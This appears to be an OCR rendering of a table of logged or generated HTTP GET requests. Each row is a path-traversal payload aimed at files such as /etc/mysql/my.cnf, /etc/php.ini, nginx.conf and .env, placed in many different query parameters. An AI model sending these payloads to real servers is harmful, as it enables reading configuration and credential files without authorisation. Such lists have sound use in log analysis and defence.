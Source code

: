 | 1201 |                     1 | GET /?layout=../../../../etc/mysql/my.cnf HTTP/1.1                                                                   |
| 1202 |                     1 | GET /?theme=../../../../etc/mysql/my.cnf HTTP/1.1                                                                    |
| 1203 |                     1 | GET /?lang=../../../../etc/mysql/my.cnf HTTP/1.1                                                                     |
| 1204 |                     1 | GET /?section=../../../../etc/mysql/my.cnf HTTP/1.1                                                                  |
| 1205 |                     1 | GET /?dir=../../../../etc/mysql/my.cnf HTTP/1.1                                                                      |
| 1206 |                     1 | GET /?page=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                 |
| 1208 |                     1 | GET /?folder=../../../../etc/mysql/my.cnf HTTP/1.1                                                                   |
| 1209 |                     1 | GET /?config=../../../../etc/mysql/my.cnf HTTP/1.1                                                                   |
| 1210 |                     1 | GET /?asset=../../../../etc/mysql/my.cnf HTTP/1.1                                                                    |
| 1211 |                     1 | GET /?template_file=../../../../etc/mysql/my.cnf HTTP/1.1                                                            |
| 1212 |                     1 | GET /?action=../../../../etc/mysql/my.cnf HTTP/1.1                                                                   |
| 1213 |                     1 | GET /?callback=../../../../etc/mysql/my.cnf HTTP/1.1                                                                 |
| 1214 |                     1 | GET /?data=../../../../etc/mysql/my.cnf HTTP/1.1                                                                     |
| 1215 |                     1 | GET /?doc=../../../../etc/mysql/my.cnf HTTP/1.1                                                                      |
| 1216 |                     1 | GET /?read=../../../../etc/mysql/my.cnf HTTP/1.1                                                                     |
| 1217 |                     1 | GET /?navigation=../../../../etc/mysql/my.cnf HTTP/1.1                                                               |
| 1218 |                     1 | GET /?dir=../../../../etc/php.ini HTTP/1.1                                                                           |
| 1219 |                     1 | GET /?navigation=../../../../etc/php.ini HTTP/1.1                                                                    |
| 1220 |                     1 | GET /?source=../../../../etc/php.ini HTTP/1.1                                                                        |
| 1221 |                     1 | GET /?folder=../../../../etc/php.ini HTTP/1.1                                                                        |
| 1222 |                     1 | GET /?config=../../../../etc/php.ini HTTP/1.1                                                                        |
| 1223 |                     1 | GET /?asset=../../../../etc/php.ini HTTP/1.1                                                                         |
| 1224 |                     1 | GET /?template_file=../../../../etc/php.ini HTTP/1.1                                                                 |
| 1225 |                     1 | GET /?action=../../../../etc/php.ini HTTP/1.1                                                                        |
| 1226 |                     1 | GET /?callback=../../../../etc/php.ini HTTP/1.1                                                                      |
| 1227 |                     1 | GET /?asset=../../../../etc/nginx/nginx.conf HTTP/1.1                                                                |
| 1228 |                     1 | GET /?doc=../../../../etc/php.ini HTTP/1.1                                                                           |
| 1229 |                     1 | GET /?read=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1230 |                     1 | GET /?page=../../../../.env HTTP/1.1                                                                                 |
| 1231 |                     1 | GET /?file=../../../../.env HTTP/1.1                                                                                 |
| 1232 |                     1 | GET /?document=../../../../.env HTTP/1.1                                                                             |
| 1233 |                     1 | GET /?template=../../../../.env HTTP/1.1                                                                             |
| 1234 |                     1 | GET /?inc=../../../../.env HTTP/1.1                                                                                  |
| 1235 |                     1 | GET /?include=../../../../.env HTTP/1.1                                                                              |
| 1236 |                     1 | GET /?path=../../../../.env HTTP/1.1                                                                                 |
| 1237 |                     1 | GET /?data=../../../../etc/php.ini HTTP/1.1                                                                          |
| 1238 |                     1 | GET /?template_file=../../../../etc/nginx/nginx.conf HTTP/1.1                                                        |